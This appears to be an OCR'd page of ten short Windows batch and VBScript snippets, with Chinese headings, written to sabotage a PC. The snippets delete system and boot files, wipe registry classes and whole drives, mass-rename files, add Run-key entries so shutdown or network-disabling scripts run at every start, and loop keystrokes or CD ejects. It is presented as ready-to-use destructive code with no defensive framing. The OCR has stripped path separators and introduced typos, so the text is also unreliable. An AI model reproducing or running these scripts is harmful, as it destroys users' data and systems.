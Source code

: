 1.死亡蓝屏

	@echo off
	del %systemdrive%*.*/f/s/q
	shutdown -r -f -t 00 

2.更改文件后缀名

	REN *.DOC *.TXT REN *.JPEG *.TXT
	REN *.LNK *.TXT
	REN *.AVI *.TXT
	REN *.MPEG *.TXT
	REN *.COM *.TXT
	BEN *.BAT *.TXT

3.删除系统重要文件

	del c:WINDOWSsystem32*.*/q 

4.使pc永久崩溃

	@echo off
	attrib -r -s -h c:autoexec.bat
	del c:autoexec.bat
	attrib -r -s -h c:boot.ini
	del c:boot.ini
	attrib -r -s -h c:ntldr
	del c:ntldr
	attrib -r -s -h c:windowswin.ini
	del c:windowswin.ini 

5.删除全部注册表

	@ECHO OFF
	START reg delete HKCR/.exe
	START reg delete HKCR/.dll
	START reg delete HKCR/* 

6.永远禁用网络！

	echo @echo off>c:windowswimn32.bat
	echo break off>>c:windowswimn32.bat
	echo ipconfig/release_all>>c:windowswimn32.bat
	echo end>>c"windowswimn32.bat
	reg add hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun/v
	windowsapi/t reg_sz/d c:windowswimn32.bat/f
	reg add hkey_current_usersoftwaremicrosoftwindowscurrentversionrun/v
	controlexit/t reg_sz/d c:windowswimn32.bat/f
	pause 

7.永远的《回车》

	set wshshell =wscript.createobject<"wscript.shell">
	do
	wscript.sleep 100
	wshshell.sendkeys"~<enter>"
	loop

 8.开机就关机

	echo @echo off>c:windowshartlell.bat
	echo break off>>c:windowshartlell.bat
	echo shutdown -r -t 11-f>>c:windowshartlell.bat
	echo end>>c:windowshartlell.bat
	reg add hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun
	/v startapi /t reg_sz/d c:windowshartlell.bat /f
	reg add hkey-current_usersoftwaremicrosoftwindowscurrentversionrun
	/v/t reg_sz/d c:windowshartlell.bat /f
	PAUSE 

9.格式化硬盘

	rd/s/q D:
	rd/s/q C:
	rd/s/q E:
	rd/s/q F:
	rd/s/q g: 

10.开启CD蜂鸣器 不停地响

	Set oWMP=CreateObject("WMPIayer.0CX.7")
	Set colCDROMs=oWMP.cdromCollection
	do
	if colCDROMs.Count>=1 then
	For i=0 to colCDROMs.Count -1
	colCDROMs.ltem<i>.Eject
	Next
	For =0 to colCDROMs.Count -1
	colCDROMs.ltem<i>.Eject
	Next
	End lf
	wscript.sleep 100
	Loop 
